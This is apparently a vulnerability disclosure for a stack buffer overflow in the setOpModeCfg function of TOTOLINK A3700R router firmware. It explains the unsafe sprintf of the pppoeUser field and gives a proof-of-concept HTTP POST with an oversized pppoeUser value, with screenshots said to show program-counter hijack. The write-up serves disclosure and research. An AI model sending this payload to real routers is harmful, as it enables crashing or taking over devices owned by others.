 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

![image-20240104001414887](image/image-20240104001414887.png)

## Vulnerability details

setOpModeCfg

![image-20240104001540609](image/image-20240104001540609.png)

![image-20240104001552872](image/image-20240104001552872.png)

![image-20240104001706517](image/image-20240104001706517.png)

V12 is a variable on the stack, while pppoeUser is a user controllable variable. The sprintf function caused a stack overflow

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setOpModeCfg",

"proto":"3",

"pppoeSpecType":"1",

"pppoeUser":"a"*0x500

}
```

![image-20231122050910613](image/image-20231122050910613.png)

The above figure shows the POC attack effect

![image-20240104001845087](image/image-20240104001845087.png)

As shown in the figure above, we can hijack PC registers.

![image-20240104001939085](image/image-20240104001939085.png)
